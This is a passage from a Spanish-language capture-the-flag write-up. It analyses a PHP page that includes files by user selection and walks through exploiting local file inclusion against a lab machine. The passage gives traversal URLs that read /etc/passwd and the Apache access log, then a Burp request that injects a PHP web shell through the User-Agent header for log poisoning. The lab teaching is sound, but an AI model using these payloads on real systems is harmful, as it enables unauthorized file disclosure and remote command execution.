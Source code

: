#### Análisis del código:

- Primero se define una función llamada `"containsStr"` que devuelve verdadero si una cadena contiene una subcadena y falso en caso contrario.

- Luego, declara una variable `$ext` que verifica si se ha pasado una cadena `ext` en la URL utilizando la variable `$_GET`. Si se ha pasado "ext", $ext toma ese valor, de lo contrario, toma el valor predeterminado ".php".

- Después, comprueba si la variable ```$_GET['view']``` existe (si se ha seleccionado un botón) y si la selección del usuario es "dog" o "cat" utilizando la función "containsStr". Si la selección es válida, el código imprime "Here you go!" y utiliza la función "include" para agregar el archivo correspondiente a la selección del usuario con la extensión definida en la variable "$ext". De lo contrario, se imprime el mensaje de error "Sorry, only dogs or cats are allowed."


# Retomando el LFI:

- Como vemos que el valor de "ext" es el que agrega la extensión ".php" al final de nuestra petición solo si no se le da un valor, podemos aprovecharnos de esto simplemente dándole un valor nulo, por ejemplo:

```
http://10.10.7.140/?view=/cat/../etc/passwd&ext
```

- Como podremos observar, efectivamente la página nos devuelve el contenido del archivo "/etc/passwd", así que seguimos enumerando posibles vulnerabilidades para derivar el `LFI` a `RCE`.

- Buscamos el archivo de logs `Apache`:

```
http://10.10.7.140/?view=/cat/../var/log/apache2/access.log&ext
```

- Sí que podemos ver el contenido de logs Apache, lo cual nos permitirá realizar un ataque de `log poisoning`, para obtener un `RCE`.


# Log Poisoning (Apache):

- Con `Burpsuite` interceptamos cualquier petición GET hacia la máquina víctima y la mandamos al repeater.

- En el campo de `"User-Agent"` inyectamos código PHP malicioso el cual nos lo interpretará al momento de leer el archivo `"access.log"`:

```html
GET / HTTP/1.1
Host: 10.10.7.140
User-Agent: <?php system ($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
